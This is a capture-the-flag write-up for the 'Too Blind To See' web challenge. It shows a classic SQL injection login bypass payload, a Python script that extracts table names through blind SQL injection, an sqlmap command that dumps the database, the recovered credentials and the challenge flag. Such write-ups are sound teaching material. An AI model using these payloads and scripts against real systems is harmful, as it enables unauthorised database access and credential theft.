

# Too Blind To See

Category: Web

Solves: 17

### Given information

> Mogambro, our rookie intern, just stepped foot into the prestigious Software Firm. His big moment, the first project review, is knocking at the door like a pesky neighbor. But wait! Somewhere in his app lurks a secret which the admins are not aware of, hidden behind the password 'fluffybutterfly'. Can you crack the code and rescue Mogambro from this password puzzle? The clock is ticking!

> http://20.244.82.82:7000/

### Solution

The given link leads to a boilerplate shopping site which has three forms:

-   /login
    -   Form 1: User sign in
        -   API endpoint: `/welcome-homie`
    -   Form 2: Admin login
        -   API endpoint: `/yesyoudidit`
-   Newsletter form at `/`
    -   API endpoint: `/final-destination`

`/yesyoudidit` is found to be vulnerable to SQL injection using the payload:

```
' or 1=1;-- -
```

But all we get from it is a fake flag:



---

The final endpoint `/final-destination` seems to be following the challenge name's footsteps as it's found to be vulnerable to Blind SQL injection. Inputting `' or 1=1;-- -` returns a JSON response containing the message "Email exists in the database" whereas any other normal input returns "Email does not exist in the database".

Using the following script we are able to extract the following table names: `maillist` and `userdata`.

```
import requests
import json
import string

charset = string.ascii_lowercase
print(charset)

table_name = ""

url = "http://20.244.82.82:7000/final-destination"

headers = {
    "Content-Type": "application/x-www-form-urlencoded",
}

while True:
    for c in charset:
        payload = "email='%20union%20select%20null%2Cnull%20from%20sqlite_schema%20where%20name%20like%20'{}%25'--".format(
            table_name + c
        )

        response = requests.request("POST", url, headers=headers, data=payload)

        r = json.loads(response.text)

        if r["exists"]:
            print("\n", r)
            table_name += c
            print("Table name:", table_name)
            break
        else:
            # print(c, r["exists"], end=" ")
            print(".", end="", flush=True)
```

We utilise sqlmap to further extract the database contents:

```
sqlmap --level 5 --risk 3 -o -r burp_request.txt -p email --thread 10 --all
```

```
Database: <current>
Table: maillist
[1 entry]
+-----------------------------+-----------------+
| email | password |
+-----------------------------+-----------------+
| krazykorgaonkar@hotmail.com | fluffybutterfly |
+-----------------------------+-----------------+

Database: <current>
Table: userdata
[1 entry]
+----+------------------+-----------+
| id | password | username |
+----+------------------+-----------+
| 2 | bxgcrVNmtUehpvgH | knowitall |
+----+------------------+-----------+
```

We are then able to obtain the flag after logging in with the first set of credentials: `krazykorgaonkar@hotmail.com:fluffybutterfly`.

Flag: `BITSCTF{5UB5Cr183r5_4r3_M0r3_7HAN_JU5T_C0N5UM3r5}`
